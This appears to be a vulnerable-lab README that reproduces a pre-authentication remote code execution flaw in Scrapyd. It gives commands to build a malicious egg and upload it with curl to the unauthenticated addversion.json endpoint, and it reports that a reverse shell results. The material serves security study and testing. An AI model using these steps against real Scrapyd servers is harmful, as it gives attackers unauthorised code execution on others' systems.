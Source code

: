 # Scrapyd Pre-Auth Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Scrapyd is an application for deploying and running Scrapy spiders. It enables users to deploy (upload) projects and control their spiders using a JSON API.

References: <https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## Start server

Execution the following command to start a scrapyd server:

```bash
docker-compose up -d
```

After scrapyd is deployed, the server is listening on `http://your-ip:6800`.

## Reproduce

Build a evil egg archive:

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# edit evil/__init__.py, add evil code
scrapyd-deploy --build-egg=evil.egg
```

Upload evil egg to the scrapyd server:

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

reverse shell is available:

![](1.png)
